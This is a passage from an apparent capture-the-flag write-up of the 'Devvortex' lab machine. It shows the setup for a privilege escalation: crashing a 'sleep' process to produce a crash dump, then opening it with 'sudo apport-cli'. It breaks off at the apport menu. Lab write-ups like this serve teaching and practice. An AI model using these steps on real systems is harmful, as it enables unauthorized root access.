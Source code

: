     linkStyle default stroke-width:2px,stroke:#FFFF99,fill:none;
    

#### Crash sleep

To exploit this, I’ll need something legit to read. The easiest way is to just
generate a dump file. I’ll start program running in the background:

    
    
    logan@devvortex:~$ sleep 20 &
    [1] 7650
    

`&` tells the OS to run the program in the background, and return focus to the
shell. 7650 is the process id (PID) for that process. I’ll send a signal to
that process to crash it with `kill -ABRT`:

    
    
    logan@devvortex:~$ kill -ABRT 7650
    logan@devvortex:~$ 
    [1]+  Aborted                 (core dumped) sleep 20
    

The command returns (after sending the signal) and prints the next prompt, and
after a slight delay, when the `sleep` process dies, it prints to the
terminal. Now there’s a dump file in `/var/crash`:

    
    
    logan@devvortex:~$ ls /var/crash/
    _usr_bin_sleep.1000.crash
    

Now I can run `apport-cli` pointing to this file:

    
    
    logan@devvortex:~$ sudo apport-cli -c /var/crash/_usr_bin_sleep.1000.crash
    *** Send problem report to the developers?
    After the problem report has been sent, please fill out the form in the
    automatically opened web browser.
    
    What would you like to do? Your options are:
      S: Send report (30.0 KB)
      V: View report
      K: Keep report file for sending later or copying to somewhere else
      I: Cancel and ignore future crashes of this program version
      C: Cancel
    Please choose (S/V/K/I/C):
    

#### With apport-cli

There are alternative ways to generate dump data to look at. For example,
running `apport-cli -f` will offer a menu of choices:

    
    
    logan@devvortex:~$ sudo apport-cli -f
    
    *** What kind of problem do you want to report?
    